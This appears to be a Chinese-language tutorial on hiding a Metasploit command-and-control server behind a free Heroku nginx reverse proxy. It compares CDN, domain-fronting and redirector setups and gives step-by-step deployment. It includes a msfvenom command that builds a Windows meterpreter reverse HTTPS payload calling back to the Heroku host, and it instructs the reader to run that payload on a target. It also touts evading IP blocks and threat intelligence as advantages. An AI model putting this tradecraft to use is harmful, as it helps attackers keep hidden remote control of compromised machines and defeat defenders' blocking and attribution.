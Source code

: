 # 利用heroku隐藏C2服务器(简单/零成本)

# 前言
本篇文章介绍如何使用heroku实现隐藏metasploit-framework的C2服务,相比较于业界流行的 `域前置` `CDN` `重定向` 三种隐藏C2的方法,本篇文章介绍的方法操作简单,在与 `威胁情报` 和 `IP封锁` 对抗过程成本更低(无论是时间成本还是资金成本).

# 当前流行的隐藏C2技术
`域前置` `CDN` `重定向`[ ](https://me.csdn.net/qq_41874930)是当前流行的三种隐藏C2的技术. Shanfenglan7 在其文章 [利用CDN、域前置、重定向三种技术隐藏C2的区别](https://blog.csdn.net/qq_41874930/article/details/109008708) 中进行了非常细致的说明,笔者在实际测试三种技术发现,每种技术都有一些不足.

## CDN隐藏C2
使用CDN隐藏C2的准备工作大致如下

+ 需要购买域名 (可以通过[https://www.freenom.com/](https://www.freenom.com/)使用免费的)
+ 需要购买CDN服务 (可以使用免费的[https://www.cloudflare.com/](https://www.cloudflare.com/))
+ 需要在CDN服务商处修改DNS记录
+ 需要等待DNS记录生效(如果你的域名绑定过其他IP,这个操作需要几个小时)

可以看到,虽然通过组合免费服务可以实现零成本,但是实现过程中需要进行很多配置操作,时间成本及心智成本过高.如果域名不是匿名注册,还有被追踪溯源的风险.

## 域前置隐藏C2
使用域前置隐藏C2的准备工作大致如下

+ 需要购买域名 (可以通过[https://www.freenom.com/](https://www.freenom.com/)使用免费的)
+ 需要购买CDN服务 (可以使用免费的[https://www.cloudflare.com/](https://www.cloudflare.com/))
+ 需要在CDN服务商处修改DNS记录
+ 需要等待DNS记录生效(如果你的域名绑定过其他IP,这个操作需要几个小时)
+ 需要知道cdn上的其他高信誉域名或者ip
+ 需要修改malleable profile文件

域前置相对于CDN还要进行更多的额外操作,而且当前主流CDN服务商都已经开始屏蔽域前置技术.

## 重定向隐藏C2
使用重定向隐藏C2的准备工作大致如下

+ 需要两台VPS
+ 使用apache或者nginx配置重定向转发
+ 需要修改malleable profile文件

重定向需要进行一些额外的编码及部署工作,而且还需要将一台VPS的IP地址暴露给 威胁情报 ,可能被溯源,其实并没有实现隐藏C2的目标.

# 利用heroku隐藏C2服务器
Heroku是一个支持多种编程语言的云平台即服务。简单理解就是可以免费部署docker容器并且可以开放web服务到互联网.下面介绍操作步骤.

+ 首先注册Heroku账号，点击通过 [https://dashboard.heroku.com](https://dashboard.heroku.com/) 注册一个账号 (推荐使用gmail)
+ 注册成功以后登录，登录以后点击 [部署链接](https://dashboard.heroku.com/new?template=https://github.com/FunnyWolf/nginx-proxy-heroku),
+ app名称填写为 `mydiydomain` (可自定义,名称为后续域名前缀)，TARGET环境变量填写为C2的handler地址

![1603771065455-e03973a0-8763-4402-8b92-db358f8d0b1f.webp](./img/2q91t2VyvScAis4f/1603771065455-e03973a0-8763-4402-8b92-db358f8d0b1f-908601.webp)

+ 然后点击 Deploy app 系统会自动部署.
+ 在metasploit-framework中添加handler,配置如图

![1603771665090-ad5c1ecd-c257-44f3-9128-4430183a2e34.webp](./img/2q91t2VyvScAis4f/1603771665090-ad5c1ecd-c257-44f3-9128-4430183a2e34-815196.webp)![1603771713694-163331e4-cb96-4bb9-aa79-84980ab9c4ee.webp](./img/2q91t2VyvScAis4f/1603771713694-163331e4-cb96-4bb9-aa79-84980ab9c4ee-199518.webp)



+ 执行 `to_handler` 生成listener
+ 使用如下命令生成payload

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=mydiydomain.herokuapp.com LPORT=443 -f exe -o ~/payload.exe
```

+ 上传运行目标机器运行即可

# 运行效果
+ 在metasploit-framework中查看session如下,可以看到session的链接地址为heroku中转服务器地址

![1603772048769-0192b120-768f-45ef-986f-4c13d4c1fae4.webp](./img/2q91t2VyvScAis4f/1603772048769-0192b120-768f-45ef-986f-4c13d4c1fae4-265798.webp)

+ 在目标机抓包效果如下

![1603772254394-2251f568-89ae-48de-9c55-36b864bbffb0.webp](./img/2q91t2VyvScAis4f/1603772254394-2251f568-89ae-48de-9c55-36b864bbffb0-297458.webp)

![1603772434299-3721e8f1-0eae-4296-b735-a741b20830d8.webp](./img/2q91t2VyvScAis4f/1603772434299-3721e8f1-0eae-4296-b735-a741b20830d8-167182.webp)

![1603772464467-3e81edaf-c634-42de-8e79-8ef5091a7c03.webp](./img/2q91t2VyvScAis4f/1603772464467-3e81edaf-c634-42de-8e79-8ef5091a7c03-188615.webp)

# 总结
heroku隐藏C2从技术原理上看非常简单,使用heroku服务部署nginx反向代理服务,payload连接heroku的nginx,nginx将流量转发到C2.具体优势如下:

+ 只需要注册heroku免费账号即可
+ 无需注册或购买域名
+ 自带可信的SSL证书(heroku域名自带证书)
+ 如果IP地址被封锁,可删除原有heroku app重新部署heroku app(大约需要30s),与防守人员持续对抗
+ 操作步骤简单



